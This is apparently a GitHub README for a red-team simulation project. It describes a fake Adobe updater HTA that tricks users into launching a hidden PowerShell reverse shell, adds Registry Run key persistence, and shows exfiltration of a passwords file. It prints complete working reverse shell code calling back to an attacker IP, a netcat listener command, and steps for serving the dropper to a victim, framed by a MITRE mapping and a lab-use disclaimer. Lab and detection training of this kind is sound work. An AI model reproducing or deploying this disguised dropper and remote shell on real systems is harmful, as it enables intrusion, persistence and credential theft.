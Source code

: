 # AdobeUpdater-RedTeamSimulation

A red team simulation that mimics an Adobe software update to deliver a PowerShell reverse shell with stealth and persistence. Designed to emulate realistic attacker behavior and test detection capabilities in a Windows environment.

---

## 🌌 Overview

This simulation uses a **fake Adobe Updater UI** (`.hta`) that deploys:

- **PowerShell reverse shell** to a remote Netcat listener
- **Registry Run key persistence**
- **Stealthy VBScript execution**
- **Decoy visuals** to enhance realism
- **Base64 encoding and realistic icon spoofing**

Intended for ethical red team demonstrations, SOC analyst training, and detection engineering labs.

The project directory is organized as follows:

## 📁 Project Structure
```
.
├── payload/ # HTA payload and artifacts
│ ├── AdobeUpdater.hta # Main dropper with embedded VBScript and UI
│ ├── adobe.ico # Spoofed Adobe icon
│ ├── adb1.png # Decoy loading screen
│ └── .gitkeep
├── analysis/
│ └── screenshots/ # All demo screenshots (1.png–27.png + kt1.png/kt2.png)
├── README.md
```
## 🔄 How It Works

1. **User executes** the `.hta` payload mimicking a legitimate Adobe updater.
2. Payload runs an embedded VBScript, which:
 - **Launches a PowerShell reverse shell**
 - **Adds a **Run registry key** for persistence**
 - **Displays a **fake update window** to distract the user**
3. **Reverse shell is caught** by the attacker's Netcat listener.

---

## 👁️ Demo Walkthrough

### 1. Attacker Prepares for Callback and File Exfiltration 

*On the attacker’s side, two terminals are opened — one to catch a reverse shell as shown in Figure 1, and<br>
one to handle file uploads as shown in Figure 2.*
<br><sub>(Figure 1)</sub><br>
<img src="analysis/screenshots/kt2.png" alt="Kali Terminal: Netcat Listener" width="75%"><br>
<em>In this terminal a Netcat listener is started on port 443 for the reverse shell.</em>
<br><sub>(Figure 2)</sub><br>
<img src="analysis/screenshots/kt1.png" alt="Kali Terminal: Upload Server" width="75%"><br>
<em>In this terminal, the attacker starts a Python upload server on port 8080.</em>
</p>

### 2. Fake Adobe Updater
*The malicious shortcut on the desktop mimics a genuine Adobe software updater.*
<br><sub>(Figure 3)</sub><br>
![Desktop Shortcut](analysis/screenshots/2.png)<br> 
*When the victim clicks on the decoy updater as shown in Figure 3, a window with a fake "critical security updates" message appears.<br> 
Once the OK button is clicked the connection is made back to the Netcat listener as shown in Figure 6*
<br><sub>(Figure 4)</sub><br>
![Installer Popup](analysis/screenshots/3.png)  
<br><sub>(Figure 5)</sub><br>
![Progress Bar](analysis/screenshots/4.png)  
*For an added, realistic effect a fake progress bar is shown
to mask the malicious activity.*<br>

---
### 3. Payload Execution & Reverse Shell Connection Made
*In Figure 6, we can see the attacker successfully catches the reverse shell and a connection is now established from the victim’s machine back to the attacker's Netcat listener.
Next, the attacker runs the `ls` command to list the contents of the current working directory.*
<br><sub>(Figure 6)</sub><br>
<img src="analysis/screenshots/5.png" alt="Payload connects" width="65%"><br>

### 4. Attacker Navigates the File System
*In Figure 7, the attacker begins backing out of the current directory using `cd` command repeating this until reaching the user's home directory.
They then run the `ls` command again and spot the Documents directory witch is there target.*
<br><sub>(Figure 7)</sub><br>
<img src="analysis/screenshots/6.png" alt="Directory listing" width="65%"><br>

*Figure 8 shows the attacker using the `cd` command to enter the Documents directory.*
<br><sub>(Figure 8)</sub><br>
<img src="analysis/screenshots/7.png" alt="Navigating directories" width="65%"><br>

*In Figure 9, we the attacker has successfully navigated into the Documents folder. Inside, they spot a file named Passwords.txt.*
<br><sub>(Figure 9)</sub><br>
<img src="analysis/screenshots/8.png" alt="Accessing Documents" width="65%"><br>

---
### 5. Second Stage of the Attack: Uploading the File
*Now that the attacker has successfully navigated through the file system and reached the Documents directory, they’ve located the Passwords.txt file.
At this point they’re ready to begin the second stage of the attack. They’ve almost reached Step 7 of the Cyber Kill Chain — Actions on Objectives — but not quite yet.*

<br><sub>(Figure 10)</sub><br>
<img src="analysis/screenshots/9.png" alt="Discovery of Passwords.txt" width="65%"><br>

<br><sub>(Figure 11)</sub><br>
<img src="analysis/screenshots/10.png" alt="Exfiltration command" width="65%"><br>

<br><sub>(Figure 12)</sub><br>
<img src="analysis/screenshots/11.png" alt="Upload success" width="65%"><br>

---

### 4. Network Exfiltration Evidence (Wireshark)

<img src="analysis/screenshots/12.png" alt="Wireshark: TCP stream" width="65%"><br>

<img src="analysis/screenshots/13.png" alt="Wireshark: HTTP PUT" width="65%"><br>

<img src="analysis/screenshots/15.png" alt="Wireshark Focused" width="65%"><br>

<img src="analysis/screenshots/16.png" alt="Follow Stream" width="65%"><br>

<img src="analysis/screenshots/17.png" alt="HTTP Stream Selected" width="65%"><br>

<img src="analysis/screenshots/18.png" alt="Exfiltrated Contents" width="65%"><br>

---

### 5. Persistence and Detection

<img src="analysis/screenshots/19.png" alt="Autoruns Registry" width="65%"><br>

<img src="analysis/screenshots/20.png" alt="Registry Key Contents" width="65%"><br>

<img src="analysis/screenshots/21.png" alt="Process Explorer Powershell" width="65%"><br>

<img src="analysis/screenshots/22.png" alt="Process Image Path" width="65%"><br>

<img src="analysis/screenshots/23.png" alt="TCP/IP Connections" width="65%"><br>

<img src="analysis/screenshots/24.png" alt="Payload Directory" width="65%"><br>

<img src="analysis/screenshots/25.png" alt="Payload Shortcut" width="65%"><br>

<img src="analysis/screenshots/26.png" alt="Attacker Upload Server" width="65%"><br>

<img src="analysis/screenshots/27.png" alt="Attacker Listener" width="65%"><br>

---

## 🧪 PowerShell Reverse Shell (Payload)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.78.129",4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()
```

---

## 📃 MITRE ATT&CK Mapping

| Technique         | ID         | Description                        |
|------------------|------------|------------------------------------|
| Initial Access    | T1204.002  | User Execution via HTA             |
| Execution         | T1059.001  | PowerShell                         |
| Persistence       | T1547.001  | Registry Run Key                   |
| Defense Evasion   | T1218.005  | LOLBAS via `wscript.exe`           |
| Command & Control | T1071.001  | Reverse Shell over TCP             |

---

## 🚧 Setup Instructions

1. **Start Netcat listener on Kali**
   ```bash
   nc -lvnp 443
   ```

2. **Serve the payload**
   ```bash
   cd payload/
   python3 -m http.server 8888
   ```

3. **Trigger on victim**
   - Browse to hosted `.hta` from Windows VM
   - Execute it

---

## 🗋 Notes

- Tested on Windows 10 with default settings
- Avoid running on production systems
- Always use in an isolated lab environment

> **Disclaimer:** For educational use only. Do not deploy on unauthorized systems.

---
